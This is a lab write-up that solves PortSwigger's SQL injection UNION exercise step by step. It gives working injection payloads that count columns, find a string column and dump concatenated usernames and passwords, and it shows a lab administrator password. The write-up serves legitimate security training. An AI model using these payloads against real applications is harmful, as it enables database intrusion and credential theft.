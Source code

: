 ## LAB 4: SQL injection UNION attack, retrieving multiple values in a single column
[SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called users, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all `usernames` and `passwords`, and use the information to log in as the `administrator` user.

## Solution
![LAB SCREENSHOT](./assets/lab4.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` - Only the second column is of type strings/varchar so, we need to concat the two username and password into a single column.


FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'abc'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the random value with the NULL fields.

`' UNION SELECT NULL,username||'='||password from users--`

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,username||'='||password from users--`


![USERNAME & PASSWORDS SCREENSHOT](./assets/lab4.2.PNG)


### 4. Login as administrator
Login using `administrator`:`fc370xmxt1os4qi3eyh0`

![SOLVED LAB SCREENSHOT](./assets/lab4.3.PNG)


<!-- EOF -->